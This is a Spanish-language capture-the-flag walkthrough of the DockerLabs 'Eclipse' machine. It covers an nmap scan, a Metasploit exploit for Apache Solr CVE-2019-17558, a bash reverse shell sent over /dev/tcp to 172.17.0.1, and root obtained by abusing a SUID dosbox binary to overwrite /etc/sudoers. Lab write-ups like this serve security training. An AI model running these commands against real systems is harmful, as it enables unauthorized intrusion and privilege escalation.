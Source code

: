 Maquina **Eclipse** de [DockerLabs](https://dockerlabs.es)

Autor: [Xerosec](https://www.youtube.com/c/xerosec)

Dificultad: Medio

![Eclipse](./images/eclipse/img/eclipse.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec 18 00:26:02 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-18 00:26:03 -03 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Epic Battle
|_http-server-header: Apache/2.4.59 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
8983/tcp open  http    syn-ack ttl 64 Apache Solr
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Solr Admin
|_Requested resource was http://172.17.0.2:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 00:26:16 2024 -- 1 IP address (1 host up) scanned in 13.35 seconds
```

Como vemos hay 2 puertos abiertos:

•`Puerto 80: Apache httpd 2.4.59`

•`Puerto 8983: Apache Solr`

y estamos frente a un debian.

Luego de revisar el puerto 80, no encuentro nada interesante, por lo que pasaremos directamente al 8983.

Puerto 8983:

![Solr 8983](./images/eclipse/img/solr.png)

Como vemos tenemos un `solr 8.3.0`, la cual es vulnerable a un `RCE(Remote code execution)`.

# Intrusión

Luego de buscar, veo que hay un exploit de `metasploit`, por lo que continuaremos iniciandolo:

```css
msfconsole
```

luego buscamos el exploit:

```css
search CVE: 2019-17558
```

```css
use 0
```

una vez seleccionado el exploit, vamos a configurarlo:

```css
set RHOST 172.17.0.2
```

```css
set LHOST 172.17.0.1
```

y finalmente, ejecutamos el exploit:

```css
exploit
```

una vez nos sale el prompt "`meterpreter >`" ejecutamos `shell`, y ya estaremos dentro pero volveremos a enviarnos una shell ya que la de metasploit no es muy comoda.

Despues de ejecutar shell, escuchamos con netcat en el puerto 9090 (`nc -nlvp 9090`) y enviamos la siguiente shell:

```css
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9090 0>&1'
```

Luego de que nos llegue la shell, realizamos el tratamiento de la tty y listo.

# Escalada De Privilegios

### Ninhack

Estando dentro, procedo a buscar binarios con el bit SUID activado:

```css
find / -perm -4000 2>/dev/null
```

![SUID](./images/eclipse/img/suid.png)

al parecer el binario `dosbox` tiene activado el SUID, y este nos permite modificar archivos del sistema, por lo que lo utilizaremos para modificar el sudoers. Para esto ejecutaremos lo siguiente

```css
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:/etc/sudoers" -c exit
```

y listo, ya podremos ejecutar cualquier binario como root, por lo que para escalar debemos ejecutar `sudo su`.

### Root

![Root](./images/eclipse/img/root.png)

Gracias por leer :)
